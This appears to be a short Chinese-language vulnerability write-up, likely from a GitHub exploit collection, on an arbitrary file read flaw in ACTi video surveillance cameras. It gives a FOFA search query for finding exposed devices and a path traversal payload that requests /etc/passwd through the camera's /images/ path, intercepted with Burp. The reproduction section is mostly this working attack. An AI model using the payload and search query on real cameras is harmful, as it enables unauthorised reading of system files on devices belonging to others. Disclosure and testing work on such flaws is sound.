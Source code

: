 # 

# ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

```
ACTI摄像头
```

## 网络测绘

```
app="ACTi-视频监控"
```

## 漏洞复现

登录页面如下

![](./images/202202140926386.png)

使用Burp抓包

```plain
/images/../../../../../../../../etc/passwd
```

![](./images/202202140926873.png)


